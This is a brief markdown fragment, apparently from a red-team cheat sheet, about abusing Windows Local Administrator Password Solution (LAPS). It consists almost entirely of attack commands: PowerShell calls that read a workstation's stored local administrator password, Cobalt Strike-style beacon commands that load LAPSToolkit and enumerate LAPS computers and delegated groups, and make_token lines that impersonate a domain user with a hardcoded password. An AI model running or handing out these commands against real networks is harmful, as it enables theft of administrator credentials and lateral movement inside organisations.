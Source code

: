 ### Local Administrator Password Solution
```
PowerShell Get-Command *AdmPwd*
PowerShell Get-AdmPwdPassword -ComputerName wkstn-1921 | fl

```
```
powershell-import C:\Users\Commando\Desktop\LAPSToolkit.ps1
powerpick Get-LAPSComputers
powershell Find-LAPSDelegatedGroups
make_token MeMe 123456qWE
make_token insomnia.io\MeMe 123456qWE
```
